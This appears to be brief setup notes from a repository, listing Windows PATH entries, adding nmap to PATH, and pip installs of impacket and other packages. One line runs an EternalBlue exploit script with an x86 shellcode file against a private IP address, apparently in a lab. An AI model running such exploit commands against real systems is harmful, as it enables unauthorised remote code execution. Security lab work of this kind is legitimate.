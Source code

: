 # -SystemRoot-

%SystemRoot%\system32;%SystemRoot%;%SystemRoot%\System32\Wbem;%SYSTEMROOT%\System32\WindowsPowerShell\v1.0\

setx PATH "%PATH%;C:\Path\To\nmap"

python get-pip.py
python get-pip.py



pip install impacket


python eternalblue_exploit7.py 192.168.1.9 sc_x86.bin


python -m pip install --upgrade pip setuptools


python -m pip install cryptography


python -m pip install build


python -m pip install impacket
